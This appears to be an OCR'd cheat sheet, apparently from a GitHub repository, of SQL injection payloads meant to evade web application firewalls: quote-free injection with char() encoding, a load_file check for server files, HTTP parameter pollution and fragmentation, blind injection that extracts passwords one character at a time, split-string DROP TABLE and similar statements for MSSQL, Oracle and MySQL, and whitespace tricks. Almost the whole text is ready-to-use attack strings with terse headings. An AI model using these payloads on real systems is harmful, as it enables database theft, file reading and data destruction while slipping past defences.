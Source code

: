 ###### Inject without quotes (string = "root")
```sh
' union select * from users where login = char(114,111,111,116);
```

###### Check for existing  files (string = "n.ext")
```sh
' and 1( if((load_file(char(110,46,101,120,116))<>char(39,39))1,0));
```


##### HPP technique
Override the HTTP GET/POST parameters by injecting delimiting characters into the query strings.

```sh
1;select+1&id=2,3+from+users+where+id=1--
```

##### HPF technique

```sh
1+union/*&b=*/select+1,2
1+union/*&b=*/select+1,pass/*&c=*/from+users--
```

##### Blind SQL Injection
Replace WAF signatures with their synonyms using SQL function.

```sh
1+OR=0x50=0x50
1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
```

##### String concatenation

###### MSSQL
```sh
'; EXEC ('DRO' + 'P T' + 'AB' + 'LE')
```

###### Oracle
```sh
'; EXECUTE IMMEDIATE 'SEL' || 'ECT US' || 'ER'
```

###### MySQL
```sh
'; EXECUTE CONCAT('INSE','RT US','ER')'
```

##### Manipulating white spaces

```sh
UNION        SELECT
```
```sh
'OR'1'='1'
```
